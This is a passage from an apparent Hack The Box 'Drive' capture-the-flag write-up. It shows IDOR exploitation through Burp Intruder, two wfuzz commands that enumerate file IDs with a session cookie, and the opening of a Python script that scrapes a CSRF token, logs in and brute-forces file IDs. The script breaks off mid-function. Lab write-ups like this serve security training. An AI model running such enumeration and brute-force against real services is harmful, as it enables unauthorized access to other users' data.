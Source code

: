 To leak information in a clearer and more elegant way, I can use **BurpSuite** as a proxy, capture the requests and with the **Intruder** functionality perform a sniper attack. Depending on the response code I find information that I am only allowed to access if I am authorized, but I confirm that they exist. I can also perform this search with `wfuzz`. The **[hack4u](https://hack4u.io/){:target="_blank"}** community also developed a python script that automates the exploitation of **IDOR** to find hidden files.

```bash
burpsuite &>/dev/null & disown
wfuzz -c --hc=404,500 -z range,1-200 -b 'sessionid=advr7jpfnh5lzuahh3pqbl820p439jdx' http://drive.htb/FUZZ/getFileDetail
#    :)
wfuzz -c --hc=404,500 -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-words.txt -b 'sessionid=advr7jpfnh5lzuahh3pqbl820p439jdx' http://drive.htb/113/FUZZ
#    block!
```

> **getFileIds.py** script:

```python
#!/usr/bin/python

import requests
import sys
import pdb
import re
import signal
import time

from pwn import *
from termcolor import colored

class HTBDriveBruteForcer:

    def __init__(self, base_url):
        self.base_url = base_url
        self.login_url = f"{self.base_url}/login/"
        self.session = requests.session()
        self.p1 = log.progress("Brute Force")
        signal.signal(signal.SIGINT, self.def_handler)

    def def_handler(sig, frame):
        print(colored(f"\n\n[!] Close script ..\n", 'red'))
        sys.exit(1)

    def getCsrfToken(self):
        
        r = self.session.get(self.login_url)
        token = re.findall(r'name="csrfmiddlewaretoken" value="(.*?)"', r.text)[0]

        return token

    def login(self, username, password):

        post_data = {
            'csrfmiddlewaretoken': self.getCsrfToken(),
            'username': username,
            'password': password
        }

        r = self.session.post(self.login_url, data=post_data)

    def bruteForceIds(self):

        self.p1.status("Brute Force Attack initiated")
```